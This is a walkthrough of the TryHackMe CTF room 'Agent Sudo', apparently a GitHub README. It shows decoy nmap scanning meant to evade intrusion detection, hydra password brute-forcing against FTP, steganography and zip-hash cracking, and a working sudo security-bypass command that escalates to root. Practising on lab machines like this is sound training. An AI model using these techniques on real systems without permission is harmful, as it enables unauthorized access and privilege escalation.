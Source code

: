 ![intro](https://github.com/user-attachments/assets/f0320ee6-9e24-44cf-bf4d-98c32338a829)

# tryhackme-Agent-Sudo
This is a walkthrough for the tryhackme CTF Agent Sudo. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals three open ports:

![nmap](https://github.com/user-attachments/assets/eccc0012-bd2f-408e-99c1-5a3f32620794)

First, let's investigate the websever on port 80.
We are greeted with a message from Agent R:

![agent R](https://github.com/user-attachments/assets/6277fcae-9082-4506-a524-d4d8036d2b0c)

The User-Agent is a crucial part of the HTTP headers sent with every request. It helps servers identify the application, operating system, vendor, and version of the requesting user agent. In this case we can assume that agent R is one of the code names. Let's try spoofing as user-agent R on this url. 
```bash
curl -A "R" -L $ip
```
Command explanation:
-A let's use specify the user agent "R"
-L will follow redirects

We get a different response:

![agent R response](https://github.com/user-attachments/assets/a9312aa2-68ff-464e-a19b-d852219dc0e5)

This reponse gives us the hint that since there are 25 user-agents, and 26 letters in the alphabet, and agent R is one of them, that the user agent is most likely one of the other letters. Let's try the same command replacing "R" with "A", "B" and so on.

We get the same result until we try user-agent "C":

![agent C ](https://github.com/user-attachments/assets/802c4f48-6b83-4045-af41-c9a0f1ca7ae3)

This gives us the answer to question about the user name, chris. It also alerts us to the fact that agent C has a weak password, so we should attempt a dictionary attack with hydra and the wordlist rockyou.txt. Looking back our nmap scan, the password will most likely be for ftp or ssh. I attempted anonymous login to ftp: ftp $ip, but it prompted for a password, so let's try the password attack on the ftp server:
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt $ip ftp
```
After about a minute, I hydra revealed the ftp password. Let's go ahead and log into the ftp server as chris:

![ftp](https://github.com/user-attachments/assets/680a6191-3213-4c78-8a7a-516c51a7aa33)

We're in! Let's use the get command to get this image files onto our machine:
```bash
get <file name>
```
First, let's cat To_agentJ.txt:


![To_agentJ txt](https://github.com/user-attachments/assets/ae98bb71-b5fa-4334-8ece-d8915c72bcaf)
Ok, I tried exiftool and strings on cute-alien.jpg but didn't yield anything. Then I tried steghide, but it prompts for a password, so let's attack it with stegcracker:

![stegcracker](https://github.com/user-attachments/assets/e9a29a66-dd5d-450b-8d44-23411b21025f)

While stegcracker is running, let's investigate cutie.png.
First, I tried exiftool and strings on it, and strings revealed an embedded txt file:
```bash
strings cutie.png
```
![strings cutie](https://github.com/user-attachments/assets/aacac05e-b801-4149-b036-6e2a295ea515)

Now, let's try binwalk on it:

![binwalk](https://github.com/user-attachments/assets/49a337c8-972f-4ebf-94c8-e629a1379699)

binwalk extracted a new directory _cutie.png.extracted.
In this directory we see the encryped 8702.zip file. Another thing to take note of, is that To_agentJ.txt is currently empty, because it's contents haven't been extracted. We will need to crack the zip file by first using zip2john, then john to crack the resulting hash:


![zip2john](https://github.com/user-attachments/assets/81d435d3-1d32-4a9e-99c7-5ecdb27341cc)
Now that we have the password, we'll use the tool 7z to extract the contents:
```bash
7z e 8702.zip
```

Now, let's read To_agentJ.txt. It reveals a message from Agent R. This string appears to be base64 encoded, so we'll need to decode it:

![base64 -d](https://github.com/user-attachments/assets/31c31d75-89da-40f2-95c7-8f2aca19ed5b)

Now, let's check back on the jpg file that's now been cracked using stegcracker:

![stegcracker_result](https://github.com/user-attachments/assets/88edafc7-9d8b-4974-83a5-e62ea715a570)
It reveals a message from chris and contains the username and password.
Great! Let's try to ssh onto the target with these credentials:
```bash
ssh james@$ip
```

We are now logged in via ssh as james, and the user flag is in his home directory.

There is also the question about the photo- Alien_autospy.jpg.
Let's tranfer this from the target machine to our attack box. Run this command from the target machine, from the jame's home directory:
```bash
python3 -m http.server
```
And wget from the attack box to get it, replace $ip with actual target IP:
```bash
wget http://$ip:8000/Alien_autospy.jpg
```
Now that we have the jpg, go to https://images.google.com/, and upload the jpg. 
Search the results and, as per the hint, keep an eye out for the foxnews site to get the answer.

# Privilege Escalation
After running sudo -l to check jame's privileges, we see james can run:
(ALL, !root) /bin/bash
This means james cannot run /bin/bash as root, but ALL implies that he can run /bin/bash as any user. In a case like this, it's a good idea to google it, especially when the question is asking for the cve #.
I clicked the result that contains sudo 1.8.27 - Security Bypass. I pasted in this cve and it is correct!
I then ran sudo -V to check the sudo version:


![sudo -V](https://github.com/user-attachments/assets/8593f750-0ada-4c3b-9641-d1185ad204bd)

This sudo version is in the vulnerable range and fits the description like a glove!
I ran the exploit:
```bash
sudo -u#-1 /bin/bash
```
James has now escalted to root!
Now, just cat root.txt to answer the last two questions.
I hope you enjoyed this room and learned a lot!



